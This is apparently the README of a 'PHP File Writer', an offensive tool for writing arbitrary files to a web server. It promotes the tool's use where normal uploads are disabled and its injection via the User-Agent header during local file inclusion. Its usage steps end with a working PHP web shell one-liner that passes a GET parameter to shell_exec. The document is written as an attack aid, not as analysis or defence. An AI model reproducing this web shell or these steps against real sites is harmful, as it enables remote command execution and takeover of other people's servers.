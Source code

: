 # PHP File Writer
PHP File writer acts just like a file uploader. But instead of uploading files, you just have to input your file name and the content of it, then it will be written to the server.
## Advantages
1. There are sites where move_uploaded_files and copy_uploaded_files functions are disabled, which means your normal file uploader won't work.
2. Can be placed as well in User-Agent while doing LFI due to its small size.
## How to use
1. Open the file writer on your site (writer.php).
2. Input any file name as output.
3. Paste your shell. Example:\
`<?php echo shell_exec($_GET['cmd']);?>`
